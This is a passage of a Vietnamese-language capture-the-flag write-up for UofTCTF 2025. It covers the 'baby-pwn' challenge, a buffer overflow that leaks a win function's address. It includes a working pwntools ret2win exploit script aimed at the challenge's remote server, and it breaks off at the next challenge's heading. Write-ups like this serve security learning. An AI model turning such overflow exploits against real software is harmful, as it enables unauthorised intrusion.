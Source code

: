 ```yaml
--- 
title: UoftCTF-2025
date: 2025-03-06 00:00:00 +0800
categories: [writeup]
tags: [pwn]
author: "kuvee"
layout: post
---
```


![image](https://hackmd.io/_uploads/HkOMiPfw1e.png)





## baby-pwn


bài đầu tiên chỉ là 1 bài warmup thôi

- ```main```

![image](https://hackmd.io/_uploads/rJ_EjwGw1l.png)


- ```vulnerable_function```

xảy ra ```BOF``` và được tặng thêm địa chỉ hàm ```secret``` ( 1 hàm để lấy flag)
![image](https://hackmd.io/_uploads/SJvHovMwyl.png)

- vậy đơn giản là 1 bài ret2win thôi

script 

```cpp
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./baby-pwn')

#p = process()
p = remote('34.162.142.123', 5000)

p.recvuntil(b'secret: ')
secret = int(p.recvline()[:-1],16)
p.sendline(b'a'*0x40 + p64(0) + p64(secret))
p.interactive()
```
![image](https://hackmd.io/_uploads/BJbnjDfw1g.png)

----------

## baby-pwn-2
### REVERSE
